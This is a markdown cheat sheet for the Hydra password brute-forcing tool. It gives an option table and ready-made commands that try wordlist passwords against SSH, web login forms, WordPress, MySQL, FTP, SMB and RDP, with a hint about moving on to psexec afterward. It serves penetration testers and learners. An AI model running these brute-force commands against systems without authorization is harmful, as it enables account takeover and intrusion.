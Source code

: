 # hydra
```bash
hydra  
[[[-l LOGIN|-L FILE] [-p PASS|-P FILE|-x OPT -y]] | [-C FILE]]  
[-e nsr] [-u] [-f|-F] [-M FILE] [-o FILE] [-b FORMAT]  
[-t TASKS] [-T TASKS] [-w TIME] [-W TIME] [-m OPTIONS] [-s PORT]  
[-c TIME] [-S] [-O] [-4|6] [-I] [-vV] [-d]  
target service [OPTIONS]
```
**target**- a target to attack, can be an IPv4 address, IPv6 address or DNS name.  
**service**- a service to attack, see the list of protocols available


https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/

|                          |                                                                                                                                                                                                  |
| ------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `-l LOGIN` <br>`-L FILE` | login with LOGIN name <br> load several logins from FILE                                                                                                                                          |
| `-p PASS` <br>`-P FILE`  | try password PASS, <br>load several passwords from FILE                                                                                                                                           |
| `-C FILE`                | colon separated "login:pass" format, instead of -L/-P options                                                                                                                                    |
| `-v / -V`                | verbose mode / show login+pass combination for each attempt                                                                                                                                      |
| `-I`                     | ignore an existing restore file (don't wait 10 seconds)                                                                                                                                          |
| `-R`                     | restore a previously aborted session. Requires a hydra.restore file was written. Options are restored, but can be changed by setting them after -R on the command line                           |
|`-s`|| 
| `-u`                     | by default Hydra checks all passwords for one login and then tries the next login. This option loops around the passwords, so the first password is tried on all logins, then the next password. |
| `-f`                     | exit after the first found login/password pair (per host if -M)                                                                                                                                  |
| `-F`                     | exit after the first found login/password pair for any host (for usage with -M)                                                                                                                  |
| `-M FILE`                | list of servers to attack, one entry per line, ':' to specify port                                                                                                                               |
| `-t TASKS`               | run TASKS number of connects in parallel per target (default: 16)                                                                                                                                |
| `-U`                     | service module usage details                                                                                                                                                                     |
| `-m OPT`                 | options specific for a module, see -U output for information                                                                                                                                     |
| `-h`                     | more command line options (COMPLETE HELP)                                                                                                                                                        |
| `server`                 | the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)                                                                                                                                    |
| `service`                | the service to crack (see below for supported protocols)                                                                                                                                         |
| `OPT`                    | some service modules support additional input (-U for module help)                                                                                                                               |
# Basic Usage
## SSH
```bash
hydra -f -l <user> -P /usr/share/wordlists/rockyou.txt <IP> -t 4 ssh
```
## HTTP Post Form 
```bash
hydra -l <user> -P /usr/share/wordlists/rockyou.txt $target http-post-form "<Login Page>:<Request Body>:[F=<ErrorMessage> lub S=<SuccesMessage>]"
```
## Http-get (WebDAV)
```bash
$ hydra -L ... -P ... <IP> http-get /web-dav/
```
## Wordpress 
```bash
hydra -f -l <user> -P /usr/share/wordlists/rockyou.txt <IP> -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```
## MySQL 
```bash
hydra -f -l <user> -P /usr/share/wordlists/rockyou.txt mysql:<IP> 
```
## FTP 
```bash
hydra -f -l <user> -P /usr/share/wordlists/rockyou.txt ftp:<IP> 
```
## SMB 
```bash
$ hydra -f -l <user> -P /usr/share/wordlists/rockyou.txt smb://<IP> # smb bruteforce user >> psexec
```
## Windows RDP 
```bash
hydra -f -l <user> -P /usr/share/wordlists/rockyou.txt rdp://<IP>
```
